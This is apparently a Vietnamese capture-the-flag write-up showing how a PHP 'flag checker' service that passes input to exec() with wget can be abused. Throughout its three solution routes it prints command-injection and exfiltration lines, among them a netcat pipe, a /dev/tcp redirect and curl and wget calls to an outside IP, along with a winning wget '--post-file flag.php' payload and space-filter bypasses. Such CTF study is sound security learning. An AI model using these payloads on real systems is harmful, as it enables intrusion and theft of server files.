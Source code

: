 # Problem
```sh
This new service checks if your flags are valid. What could possibly go wrong?

Target: http://challs.xmas.htsp.ro:3001/
Author: yakuhito
```
# Solution

- Đầu tiên, sau khi kết nối đến địa chỉ đề cho, chúng ta có thể thấy được ngay source code của file [index.php](problem/index.php).
<img src=assets/p1.png>

- Sau khi đọc code, ta có thể thấy ngay yêu cầu của challenge này như sau:
	- Nhận 1 tham số có tên là `flag` thông qua phương thức `GET`.
	- Sau đó sẽ vào hàm **checkFlag** để kiểm tra chuỗi của chúng ta nhập vào, nếu có bất kì 1 kí tự nào trong chuỗi của chúng ta nhập vào không thuộc chuỗi này (cả lowercase và uppercase) **'FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}'** thì hàm **checkFlag** sẽ trả về `False` và kết thúc chương trình.
	- Nếu chuỗi của chúng ta nhập làm cho hàm **checkFlag** trả về `True` thì chúng ta sẽ đến được hàm **getFlag**. Ở hàm này, chúng ta được phép thực thi lệnh thông qua hàm **exec()** của `php`, cụ thể là `"wget -q -O - https://kuhi.to/flag/" . $flag` với biến `$flag` chính là chuỗi chúng ta nhập vào sau khi đã được kiểm tra ở hàm **checkFlag**.

- Tiếp theo chúng ta sẽ phân tích bài toán:
	- Đầu tiên để có thể dễ dàng debug (custom lại file source) hoặc build lại chương trình này để test (trường hợp sau khi server của challenge đã đóng) thì có thể sử dụng file [index.php](problem/index.php) đề cho và dùng chương trình `php` để chạy chương trình cục bộ:
<img src=assets/p4.png>
	- Nhìn vào source code, chúng ta sẽ nhanh chóng nhận ra `flag` nằm trong file `flag.php`, cùng thư mục với file `index.php`.
	- Dựa theo `output`của chương trình, chúng ta hoàn toàn không lấy được `flag`, cụ thể ở hàm **getFlag** chúng ta chỉ nhận được `Nope` hoặc `Maybe`. Cho nên hướng giải quyết sẽ là đẩy `flag` ra ngoài internet thông qua hàm **exec()**. Đến đây sẽ có 3 hướng giải quyết cho challenge này.

- Hướng 1: **Command Injection**
	- Như chúng ta có thể thấy biến `$command = "wget -q -O - https://kuhi.to/flag/" . $flag` hoàn toàn có thể cho phép chúng ta thực hiện `command injection`, cụ thể là `command1;command2|command3` với `command1` là chương trình `wget` đề cho, `command2` dùng để đọc nội dung file flag, `command3` dùng để chuyển output của `command2` ra ngoài internet. Đại loại mô hình chung sẽ là **wget -q -O - https://kuhi.to/flag/ ; cat flag.php | nc 9.9.9.9 9999** với `9.9.9.9` và `9999` là địa chỉ ip và port của chúng ta ở ngoài internet. Đến đây chúng ta sẽ cùng giải quyết 1 số vấn đề:
	- Đọc file: để đọc được file flag.php chúng ta có thể dùng `cat` (ngoài ra có thể dùng: `tac, head, tail, sort, nl, cut, awk, sed, base64...` sở dĩ có chú thích này vì có cũng có 1 bài tương tự nhưng bài đó họ xóa hết tất cả các chương trình dùng để đọc file nên chúng ta phải tùy cơ ứng biến thôi). Tuy nhiên ở hàm **checkFlag** lại không cho phép chúng ta nhập kí tự `space`, nhưng không sao, đối với `shell injection` thì cái này bypass cũng dễ. 
```sh
cat${IFS}flag.php
cat<flag.php
{cat,flag.php}
```
	- Ở đây vì hàm **checkFlag** chỉ cho phép nhập 7 kí tự đặc biệt này `-{_\$.}`
nên giải pháp sẽ là thay kí tự `space` bằng `${IFS}`.
	- Tiếp theo đến đoạn kết nối ra internet thì chúng ta có thể dùng `nc 9.9.9.9 9999`, tuy nhiên kí tự `|` lại không cho được phép. Sau 1 hồi search google thì phát hiện cách này: **cat flag > /dev/tcp/9.9.9.9/9999**, trong đó kí tự ">" sẽ được thay bằng biến môi trường `${PS2}`, kí tự `/` tuy không được phép nhưng có thể thay bằng `${HOME}` (hoặc **${HOME:0:1}**), tuy nhiên cách này cũng fail vì kí tự `>` từ biến môi trường `${PS2}` được xem như là 1 file chứ không phải là kí tự `redirect`. Đến đây chúng ta fail ở việc kết nối 2 command lại với nhau. Vậy thử dụng 1 command kiểu như là:
```sh
curl 9.9.9.9/`cat flag.php`
wget 9.9.9.9/$(base64 flag.php)
```
	- Nhưng cũng đều fail nốt vì 2 kí tự "(" và "\`" đều bị filter hết. Thật ra với cách này mình fail ngay từ đầu vì nghĩ rằng kí tự `\n` có thể làm kí tự phân cách giữa `command1` và `command2`. Nói chúng bị hàm **checkFlag** lọc kí tự như thế thì đúng là khó thở thật. 

- Hướng 2: Bypass hàm **checkFlag**
	- Đầu tiên dễ nhìn thấy nhất, là hàm `php strlen`, liệu có cách nào để hàm này trả về giá trị nhỏ hơn giá trị thực để nó không kiểm tra được hết các kí tự chúng ta nhập vào không? Đến đây chợt nghĩ đến kí tự **\x00** và **overflow integer** nhưng sau 1 hồi test đều fail :TT 
	- Tiếp tục trong hàm **checkFlag** còn hàm nào thì tìm lỗ hổng của hàm đấy thôi. Tiếp đến là hàm `strpos`, thèn này cũng có 1 bug cho phép bypass việc lọc kí tự nhưng đòi hỏi phải có kí tự `%`, mà kí tự này cũng lại bị chặn :TT
	- Cứ thế tương tự cho các hàm tiếp theo mà search tiếp nhưng chẳng thu được kết quả gì :TT 

- Hướng 3: Tận dụng **wget** đề cho
```sh
$command = "wget -q -O - https://kuhi.to/flag/" . $flag;
$cmd_output = array();
exec($command, $cmd_output);
```
	- Nhìn nhận thật kĩ thì `wget` chính là command mà chúng ta cần tìm. Đối với mô hình chung thì việc chèn `command injection` luôn là lựa chọn hàng đầu, tuy nhiên đối với bài đặc biệt như challenge này, `wget` không chỉ giúp chúng ta kết nối ra ngoài internet, mà còn có thể upload được file nên cái chúng ta làm không phải là chèn thêm `command` mà là chèn thèn `option`. Cụ thể sẽ là **wget -q -O - https://kuhi.to/flag/ 9.9.9.9 --post-file flag.php**
	- Và đây là payload và kết quả:
<img src=assets/p2.png>

<img src=assets/p3.png>

P/S: Nói chung qua challenge này được ôn lại `command injection` cũng nhiều, chỉ là vì không liên quan nên không nói cụ thể trong bài này nên đành để lại 1 số reference tại đây vậy :xD

[Shell Command Language](https://pubs.opengroup.org/onlinepubs/009604499/utilities/xcu_chap02.html)

[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet#%E7%A9%BA%E7%99%BD%E7%B9%9E%E9%81%8E)

[Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)


